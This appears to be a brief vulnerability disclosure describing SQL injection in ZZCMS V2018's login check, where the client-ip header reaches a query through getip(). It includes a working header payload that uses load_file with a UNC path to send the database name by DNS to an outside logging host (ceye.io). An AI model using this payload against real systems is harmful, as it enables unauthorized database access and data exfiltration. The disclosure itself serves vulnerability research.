 ZZCMS V2018

SQL Injection

code: user\checklogin.php
![image](https://github.com/P0rZ9/ZZCMS/blob/master/1.jpg)
Follow up this function：getip()

check_isip is a filter function,Follow up:

This is just a simple filter. It has nothing to do with it.

so there is SQL injection here.

At the time of landing,In HTTP head add this： client-ip: 122.122.122.122' and ((select load_file(concat('\\',(select database()),'.fvyr6w.ceye.io\abc'))))#

You can see that you have successfully obtained the Database name.
